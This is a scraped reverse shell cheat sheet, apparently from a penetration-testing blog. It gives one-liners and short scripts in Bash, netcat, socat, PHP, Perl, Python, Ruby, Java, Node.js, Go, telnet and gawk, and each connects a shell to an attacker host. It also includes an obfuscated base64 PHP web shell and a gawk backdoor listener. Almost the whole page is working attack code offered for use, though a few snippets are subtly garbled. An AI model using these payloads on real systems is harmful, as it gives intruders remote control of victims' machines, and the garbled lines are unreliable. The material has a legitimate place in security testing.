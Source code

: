 ## Bash Reverse Shells[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#bash-reverse-shells)

```bash
exec /bin/bash 0&0 2>&0
```

```bash
0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196
```

```bash
exec 5<>/dev/tcp/ATTACKING-IP/80
cat <&5 | while read line; do $line 2>&5 >&5; done  

# or:

while read line 0<&5; do $line 2>&5 >&5; done
```

```bash
bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1
```

## socat Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#socat-reverse-shell)

Source: @filip_dragovic

```bash
socat tcp:ip:port exec:'bash -i' ,pty,stderr,setsid,sigint,sane &
```

## Golang Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#golang-reverse-shell)

```go
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","127.0.0.1:1337");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;http://cmd.Run();}'>/tmp/sh.go&&go run /tmp/sh.go
```

## PHP Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#php-reverse-shell)

A useful PHP reverse shell:

```bash
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
(Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6)
```

Another PHP reverse shell (that was submitted via Twitter):

```bash
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"ATTACKING IP"/443 0>&1'");?>
```

Base64 encoded by @0xInfection:

```
<?=$x=explode('~',base64_decode(substr(getallheaders()['x'],1)));@$x[0]($x[1]);
```

## Netcat Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#netcat-reverse-shell)

Useful netcat reverse shell examples:

Don't forget to start your listener, or you won't be catching any shells :)

```bash
nc -lnvp 80
```

```bash
nc -e /bin/sh ATTACKING-IP 80
```

```bash
/bin/sh | nc ATTACKING-IP 80
```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```

A reverse shell submitted by [@0xatul](https://twitter.com/atul_hax) which works well for OpenBSD netcat rather than GNU nc:

```bash
mkfifo /tmp/lol;nc ATTACKER-IP PORT 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol
```

## Node.js Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#nodejs-reverse-shell)

```bash
require('child_process').exec('bash -i >& /dev/tcp/10.0.0.1/80 0>&1');
```

Source: @jobertabma via @JaneScott

## Telnet Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#telnet-reverse-shell)

```bash
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```

```bash
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

Remember to listen on 443 on the attacking machine also.

## Perl Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#perl-reverse-shell)

```perl
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Perl Windows Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#perl-windows-reverse-shell)

```perl
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

```perl
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Ruby Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#ruby-reverse-shell)

```ruby
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Java Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#java-reverse-shell)

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## Python Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#python-reverse-shell)

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Gawk Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#gawk-reverse-shell)

Gawk one liner rev shell by @dmfroberson:

```gawk
gawk 'BEGIN {P=4444;S="> ";H="192.168.1.100";V="/inet/tcp/0/"H"/"P;while(1){do{printf S|&V;V|&getline c;if(c){while((c|&getline)>0)print $0|&V;close(c)}}while(c!="exit")close(V)}}'
```

```gawk
#!/usr/bin/gawk -f

BEGIN {
        Port    =       8080
        Prompt  =       "bkd> "

        Service = "/inet/tcp/" Port "/0/0"
        while (1) {
                do {
                        printf Prompt |& Service
                        Service |& getline cmd
                        if (cmd) {
                                while ((cmd |& getline) > 0)
                                        print $0 |& Service
                                close(cmd)
                        }
                } while (cmd != "exit")
                close(Service)
        }
}
```